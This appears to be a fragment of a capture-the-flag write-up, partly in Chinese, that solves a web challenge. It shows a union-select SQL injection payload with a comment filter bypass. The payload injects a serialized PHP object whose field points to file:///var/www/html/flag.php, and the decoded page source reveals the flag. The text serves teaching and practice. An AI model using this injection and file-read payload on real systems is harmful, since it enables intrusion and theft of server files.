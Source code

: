 -1 union/*!select */1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:13;s:4:"blog";s:29:"file:///var/www/html/flag.php"；}':

**the contents of his/her blog,没有显示内容，可能依然为非该字段的格式内容，所以查看网页源代码:**

```html
<hr>
    <br><br><br><br><br>
    <p>the contents of his/her blog</p>
    <hr>
    <iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3sxOTUxNDdkZi1iN2NhLTQ1NjAtYmVjYi1kOTg1OTI4NTBmYzh9IjsNCmV4aXQoMCk7DQo='>
</div>
```

这个区域显示的内容为src所指向区域，所以点击src所指向的区域:

```php
<?php

$flag = "flag{195147df-b7ca-4560-becb-d98592850fc8}";
exit(0);
```

得到flag.php的内容